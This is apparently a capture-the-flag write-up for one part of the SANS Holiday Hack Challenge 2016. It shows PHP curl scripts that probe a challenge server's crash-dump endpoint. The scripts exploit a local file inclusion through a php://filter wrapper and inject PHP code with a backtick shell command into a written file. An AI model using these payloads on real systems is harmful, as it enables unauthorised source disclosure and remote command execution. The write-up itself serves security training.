## SANS Holiday Hack Challenge 2016
# Part 04e : Full of Holes (Exception)

Santa has been rescued!! But the culprit has not been identified.

This part focuses on finding and exploiting several vulnerabilities in multiple SantaGram servers. The "flag" is a mp3 audio file hidden on each of these servers.

The urls of the various servers can be found in the "strings.xml" of the SantaGram APK we got in Part 2.


These are the servers in flag order
- [Analytics 1](../04a/#analytics-1)
- [Dungeon](../04b/#dungeon)
- [Debug](../04c/#debug)
- [Ads](../04d/#ads)
- Exception
- [Analytics 2](../04f/#analytics-2)

---

### Exception

Access the Exception site at http://ex.northpolewonderland.com/exception.php



It only accepts POST requests. 

Let's try sending plain POST request to the site.

```php
$url = 'http://ex.northpolewonderland.com/exception.php';
$ch = curl_init();
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);

$postfields = array();
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS, $postfields);

$resp = curl_exec($ch);
if ($resp == false) echo curl_error($ch);
var_dump($resp);
```

Running this script returns the following reply



Let's make it a JSON request then

```php
$url = 'http://ex.northpolewonderland.com/exception.php';
$ch = curl_init();
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);

$httpheaders = array();
$httpheaders[] = 'Content-Type: application/json';
curl_setopt($ch, CURLOPT_HTTPHEADER, $httpheaders);

$postfields = array();
$jsondata = json_encode($postfields);
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS, $jsondata);

$resp = curl_exec($ch);
if ($resp == false) echo curl_error($ch);
var_dump($resp);
```



This time it complains that the JSON request is missing the "operation" variable. It also tells us that it accepts 2 values for this variable
- WriteCrashDump
- ReadCrashDump

Let's try WriteCrashDump first. Also, for brevity's sake, I will only be changing the values in the "$postfields" variable from here on out. The rest of the code does not change.

```php
$postfields['operation'] = 'WriteCrashDump';
```



Now it complains it needs a "data" key. Let's give it one then

```php
$postfields['operation'] = 'WriteCrashDump';
$postfields['data'] = 'abc123';
```



Yay, its a success. It returns a path to some php file.

Let's try the other operation "ReadCrashDump" now

```php
$postfields['operation'] = 'ReadCrashDump';
```



It complains about the "data" key again. Let's give it one again.

```php
$postfields['operation'] = 'ReadCrashDump';
$postfields['data'] = "abc123";
```



Now, it complains about a "crashdump" key. Hmm, remember the response from the WriteCrashDump above? There was some kind of crashdump ID, let's try that.

```php
$postfields['operation'] = 'ReadCrashDump';
$postfields['data'] = "abc123";
$postfields['crashdump'] = "crashdump-rqXxSw";
```


It still complains about the "crashdump" key. I was stuck here for awhile. The clue is actually in the SplashScreen class of the SantaGram apk we analyzed before.



In this code, the "data" key contains another JSON object. Perhaps the "crashdump" key is within the "data" key.

```php
$postfields['operation'] = 'ReadCrashDump';
$data = array();
$data['crashdump'] = "crashdump-rqXxSw";
$postfields['data'] = $data;
```


Nice, it returned whatever we sent in the "WriteCrashDump" request.

Looking at the request parameters of the "ReadCrashDump" request, it looks similar to a file inlcusion. I remember one of the elves talking about file inclusions. Let's visit him again.


The [blog post](https://pen-testing.sans.org/blog/2016/12/07/getting-moar-value-out-of-php-local-file-include-vulnerabilities) talks about using PHP filters in file inclusion vulnerabilities to read php source code. This quite fits what we have seen so far. Follow the article and try it.

```php
$url = 'http://ex.northpolewonderland.com/exception.php';
$ch = curl_init();
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);

$httpheaders = array();
$httpheaders[] = 'Content-Type: application/json';
curl_setopt($ch, CURLOPT_HTTPHEADER, $httpheaders);

$postfields = array();
//$postfields['operation'] = 'WriteCrashDump';
//$postfields['data'] = 'abc123';
$postfields['operation'] = 'ReadCrashDump';
$data = array();
$data['crashdump'] = "php://filter/convert.base64-encode/resource=crashdump-rqXxSw";
$postfields['data'] = $data;
$jsondata = json_encode($postfields);
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS, $jsondata);

$resp = curl_exec($ch);
if ($resp == false) echo curl_error($ch);
var_dump($resp);
echo "\n";
echo base64_decode($resp);
echo "\n";
```



Interesting, it seems our "data" message gets written directly into a PHP file as PHP code. If it is not sanitised, we could write arbitrary PHP code into a PHP file. Let's try it.

```php
$url = 'http://ex.northpolewonderland.com/exception.php';
$ch = curl_init();
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);

$httpheaders = array();
$httpheaders[] = 'Content-Type: application/json';
curl_setopt($ch, CURLOPT_HTTPHEADER, $httpheaders);

$postfields = array();

$postfields['operation'] = 'WriteCrashDump';
$postfields['data'] = "'); echo `ls ../`; echo ('";

/*
$postfields['operation'] = 'ReadCrashDump';
$data = array();
$data['crashdump'] = "php://filter/convert.base64-encode/resource=crashdump-rqXxSw";
$postfields['data'] = $data;
*/

$jsondata = json_encode($postfields);
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS, $jsondata);

$resp = curl_exec($ch);
if ($resp == false) echo curl_error($ch);
var_dump($resp);
echo "\n";
echo base64_decode($resp);
echo "\n";
```

The backtick (`) operator is similar to an eval in PHP. The above will do a "ls" command on the parent directory.



Its easier to read the output in a browser. Open a browser and go to the url.



We have found the audio file.

Download and save "[discombobulated-audio-6-XyzE3N9YqKNH.mp3](../05/discombobulated-audio-6-XyzE3N9YqKNH.mp3)"

I've also included the [php script](soln.php) that I used for this challenge.